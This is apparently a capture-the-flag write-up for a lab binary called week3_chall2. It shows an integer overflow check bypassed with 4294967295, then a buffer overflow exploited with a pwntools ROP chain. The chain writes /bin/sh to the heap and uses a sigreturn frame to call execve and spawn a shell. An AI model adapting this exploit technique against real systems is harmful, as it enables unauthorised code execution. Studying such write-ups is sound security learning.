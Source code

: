 <img src="https://github.com/0xSh4dy/infosec_writeups/blob/images/img.png"/>
So, the program asks for a number. On reversing the binary, we can see that a buffer overflow will occur if the user inputs a certain number

```
if(local_11c + 1 < local_11c){
  vulnerable_code...
}


```
Since, local_11c  is a uint, we can enter the max value i.e 4294967295. It will make the if condition true and thus, you can enter into the vulnerable code
After that, by using gdb, we can easily find the offset to rip which is 280. 
<br>
Now, the further plan is pretty straight forward. We will create a ROP chain to spawn a shell. Usually, this is done by calling system("/bin/sh"). In this case, the binary does not contain the function system. So, we cannot use this method. But, we can use execve("/bin/sh",0,0) . Since, this is a statically linked binary, it contains lots of ROP gadgets which would make exploit development easier. 
<br>
The binary also does not contain the string "/bin/sh". But, we can write this string into some writeable section such as the heap in this case. Now, I will write the exploit step by step.  First of all we need to find ROPgadgets. Tools like ROPgadget or Ropper can be used for it.

```
from pwn import *
elf = context.binary = ELF("./week3_chall2")
p = elf.process()

# Specify the architecture because it is needed to create a fake Sigreturn Frame
context.arch = "amd64"

movGadget = 0x0000000000543650 #mov qword ptr [rcx], rdx ; ret
pop_rcx_ret =  0x0000000000460133 # pop rcx ; ret
pop_rdx_ret = 0x000000000040421f # pop rdx ; ret
pop_rax_ret = 0x000000000041d24a # pop rax ; ret
ret = 0x000000000040101a #ret;
syscall = 0x00000000004039c9 # syscall;
heap = 0x00000000005dd000

offset = 280 #The offset to rip
binsh = 0x0068732f6e69622f #/bin/sh\x00
junk = b'a'*offset
p.recvuntil("Enter a number: ")
p.sendline('4294967295')
p.recvuntil("Whats Your Name, My Fellow h4x0r: ")

#The payload to write /bin/sh\x00 into memory
payload = junk + flat(pop_rcx_ret,heap,pop_rdx_ret,binsh,movGadget) 
```
After that, we need to call execve("/bin/sh\0",0,0). This can be easily done using syscalls.
Creating a fake SigreturnFrame

```
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = heap
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall
```

Now, we have created a Sigreturn frame. This would be used to set everything in order to call execve("/bin/sh\0",0,0). Refer to https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details on the Linux syscall table.

Now, make a sys_rt_sigreturn syscall which would be used to execute the Sigreturn Frame created by us. To make that syscall, the value in the rax register must be 15 (or 0xf). So, use pop rax;ret gadget to do that.   popping 0xf into the rax register followed by a syscall and our sigreturn frame would spawn a shell
```
payload += flat(pop_rax_ret,0xf,syscall,frame)
p.sendline(payload)
p.interactive()
```

### PROOF
<img src="https://github.com/0xSh4dy/infosec_writeups/blob/images/img2.png"/>
